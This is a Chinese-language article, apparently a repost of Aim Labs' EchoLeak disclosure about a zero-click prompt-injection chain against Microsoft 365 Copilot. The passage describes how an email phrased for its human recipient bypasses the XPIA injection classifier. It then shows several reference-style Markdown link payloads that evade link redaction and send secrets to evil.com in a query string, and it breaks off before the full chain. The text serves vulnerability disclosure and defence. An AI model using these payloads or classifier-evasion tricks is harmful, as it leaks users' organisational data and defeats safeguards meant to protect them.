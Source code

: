 #  EchoLeak-首个导致 M365 Copilot 数据泄露的零点击 AI 漏洞  
孙志敏  AI与安全   2025-06-12 12:19  
  
![Aim Labs | Echoleak M365](https://mmbiz.qpic.cn/sz_mmbiz_png/rhmRSVBNbicqfOg5RdfhSibjGvAPibBYgFicN9OPEuVoYTd7uibO4tXWZiceMO05JmGNVwUvJLprlHvuj5Lbiasddaklg/640?wx_fmt=png&from=appmsg "")  
  
简述  
  
Aim Security 发现了“EchoLeak”漏洞，该漏洞利用了 RAG Copilot 的典型设计缺陷，允许攻击者自动窃取 M365 Copilot 上下文中的任何数据，而无需依赖特定的用户行为。主链由三个不同的漏洞组成，但 Aim Labs 在研究过程中发现了其他可能被利用的漏洞。  
  
攻击流程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rhmRSVBNbicqfOg5RdfhSibjGvAPibBYgFicOdQrlibiawicCicL8bACWqWJeW9EPqZOGuRxqyqMeSicEPqEyANNiaforhyQ/640?from=appmsg "")  
  
攻击链  
  
步骤 1：XPIA 绕过  
  
微软部署的主要防护措施之一是 XPIA（跨提示注入攻击）分类器。这些分类器应该能够阻止提示注入攻击到达 M365 Copilot 的底层 LLM。不幸的是，只需将包含恶意指令的电子邮件措辞得像针对收件人一样，就能轻松绕过这一防护措施。该电子邮件的内容从未提及 AI/助手/Copilot 等，以确保 XPIA 分类器无法将该电子邮件检测为恶意邮件。  
  
遗憾的是，用于检测真实世界中即时注射的高质量数据集稀缺。由于即时注射可能隐藏在种类繁多的主题、措辞、语气、语言等等背后，因此正确训练 XPIA 分类器需要大量的训练数据，而这些数据目前尚不完善。  
  
因此，我们的攻击始于一封 XPIA 分类器无法检测到的恶意邮件。这就是我们的攻击向量。  
  
步骤 2：绕过链接编辑  
  
为了真正从 M365 Copilot 的上下文中窃取数据，我们还需要一个传出通道。M365 Copilot 只能访问组织资源，并且只有员工可以访问。因此，我们最初关于如何窃取数据的想法是向用户提供一个链接，该链接会将用户引导至攻击者的域，并附加记录在攻击者服务器上的查询字符串参数。攻击者的指令指定查询字符串参数应该是 LLM 上下文中最敏感的信息，从而完成数据窃取。  
  
听起来不错，对吧？  
  
这种方法的问题在于，Copilot 会在用户点击外部 Markdown 链接之前就将其从聊天记录中删除。Markdown 链接是符合以下格式的文本，在客户端渲染后即可点击。  
  
```
[Link display text](https://www.evil.com?param=<secret>)
```  
  
  
此解决方案应强制仅将安全链接目标（即内部网页）呈现为可点击链接给用户。Markdown 的魅力在于，它总是比你想象的要深奥得多。引用式 Markdown 链接不会被编辑，也无法被 Microsoft 识别：   
  
未被 M365 Copilot 从聊天中删除：  
  
```
[Link display text][ref][ref]: https://www.evil.com?param=<secret>
```  
  
  
其他有效且未被删除的变体：  
  
```
[Link display text][Link display text]: https://www.evil.com?param=<secret>
```  
  
  
```
[Link display text][][Link display text]: https://www.evil.com?param=<secret>
```  
  
  
有了这些绕过方法，我们就能制作第一个链：  
  